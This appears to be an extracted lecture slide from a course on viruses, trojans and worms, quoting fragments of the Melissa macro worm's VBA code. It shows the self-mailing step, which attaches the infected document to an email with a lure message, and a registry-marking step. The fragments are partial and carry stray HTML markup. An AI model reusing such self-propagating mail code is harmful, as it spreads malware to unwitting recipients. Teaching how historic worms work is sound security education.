

# Melissa Worm
Actually send emails
BreakUmOffASlice.Subject = "Important Message From " & Application.UserName
	BreakUmOffASlice.Body =
	"Here is that document you asked for ...                                               	don't show anyone else ;-)"
	BreakUmOffASlice.Attachments.Add ActiveDocument.FullName
	BreakUmOffASlice.Send

Wrap up
Peep = ""
	Next y
	DasMapiName.Logoff
	End If
	p$ = "clone"
	System.PrivateProfileString("", "HKEY_CURRENT_USER
	  \Software\Microsoft\Office\", "<B style=
	  "color:black;background-color:#ffff66">Melissa</B>?") = "... by Kwyjibo"
	End If

Mateti, Viruses, Trojans and Worms
27